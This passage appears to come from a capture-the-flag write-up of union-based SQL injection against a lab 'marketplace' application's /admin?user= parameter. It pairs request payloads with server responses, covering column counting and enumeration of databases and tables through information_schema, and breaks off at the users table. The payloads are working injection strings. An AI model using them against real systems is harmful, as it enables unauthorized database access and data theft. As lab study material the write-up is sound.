 ```html
          ID: 1 <br />
          Is administrator: false <br />
       <button onclick="this.disabled = true">Delete user</button>
```

#### Determining the columns returned
#### Request Payload
```html
/admin?user=0 union select 1,2,3,4 -- -
```
#### Response
```html
      <div>
          User 2 <br />
          ID: 1 <br />
          Is administrator: true <br />
       <button onclick="this.disabled = true">Delete user</button>
      </div>
```
The query returns 4 columns in which value of column 1 and 2 are reflected on the output.

#### Enumerating the Databases
#### Request
```html
user=0 union select 1,group_concat(schema_name),3,4 from information_schema.schemata-- -
```
#### Response
```html
information_schema,marketplace
```
We have two databases.
#### Enumerating the tables inside marketplace
#### Request
```html
user=0 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='marketplace'-- -
```
#### Response
```html
      <div>
          User items,messages,users <br />
          ID: 1 <br />
          Is administrator: true <br />
       <button onclick="this.disabled = true">Delete user</button>
      </div>
```
There are three tables. ie users,messages and items.

#### Enumerating the columns inside the tables
### Table : users
